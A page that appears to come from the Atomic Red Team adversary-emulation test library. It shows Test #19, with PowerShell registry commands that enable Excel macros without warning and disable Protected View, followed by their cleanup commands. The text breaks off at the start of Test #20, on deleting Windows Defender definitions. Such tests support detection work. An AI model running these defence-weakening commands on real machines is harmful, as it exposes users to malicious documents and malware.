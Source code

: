 



<br/>
<br/>

## Atomic Test #19 - Disable Microsoft Office Security Features
Gorgon group may disable Office security features so that their code can run. Upon execution, an external document will not
show any warning before editing the document.


https://unit42.paloaltonetworks.com/unit42-gorgon-group-slithering-nation-state-cybercrime/

**Supported Platforms:** Windows


**auto_generated_guid:** 6f5fb61b-4e56-4a3d-a8c3-82e13686c6d7






#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security" -Name "VBAWarnings" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableInternetFilesInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableUnsafeLocationsInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableAttachementsInPV" -Value "1" -PropertyType "Dword"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security" -Name "VBAWarnings" -ErrorAction Ignore | Out-Null
Remove-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #20 - Remove Windows Defender Definition Files
Removing definition files would cause ATP to not fire for AntiMalware. Check MpCmdRun.exe man page for info on all arguments.
On later viersions of windows (1909+) this command fails even with admin due to inusfficient privelages. On older versions of windows the
command will say completed.
